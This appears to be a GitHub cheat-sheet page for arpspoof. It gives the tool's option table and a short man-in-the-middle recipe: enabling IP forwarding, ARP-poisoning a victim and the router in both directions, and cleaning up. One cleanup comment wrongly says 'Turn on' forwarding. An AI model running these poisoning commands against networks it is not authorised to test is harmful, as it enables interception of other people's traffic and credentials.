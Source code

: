 **arpspoof** redirects packets from a target host (or all hosts) on the LAN intended for another host on the LAN by forging ARP replies.  
This is an extremely effective way of sniffing traffic on a switch.

```bash
$ arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host
```

|                    |                                                                                                                                                                                                                                                                                                                                                                                                                  |
| ------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `‐i interface`     | Specify the interface to use.                                                                                                                                                                                                                                                                                                                                                                                    |
| `‐t target`        | Specify a particular host to ARP poison (if not specified, all hosts on the LAN).<br>Repeat to specify multiple hosts. r Poison both hosts (host and target) to capture traffic in both directions. (only valid in conjuntion with -t)                                                                                                                                                                           |
| `host`               | Specify the host you wish to intercept packets for (usually the local gateway).                                                                                                                                                                                                                                                                                                                                  |
| `‐c own/host/both` | Specify which hardware address t use when restoring the arp configuration; while cleaning up, packets can be send with the own address as well as with the address of the host. Sending packets with a fake hw address can disrupt connectivity with certain switch/ap/bridge configurations, however it works more reliably than using the own address, which is the default way arpspoof cleans up afterwards. |

# MitM
```bash
# Turn on the packet forwarding in Linux
# By enabling the packet forwarding, you disguise your local machine to act as the network router.
$ sysctl -w net.ipv4.ip_forward=1
$ echo '1' > /proc/sys/net/ipv4/ip_forward

# Redirect packages to your machine with arpspoof
$ arpspoof -i [Network Interface Name] -t [Victim IP] [Router IP]

# Intercept packages from the Router
$ arpspoof -i [Network Interface Name] -t [Router IP] [Victim IP]

# Stopping the attack
# kill arpspoof proceses and
# Turn on the packet forwarding in Linux
$ sysctl -w net.ipv4.ip_forward=0
$ echo '0' > /proc/sys/net/ipv4/ip_forward
```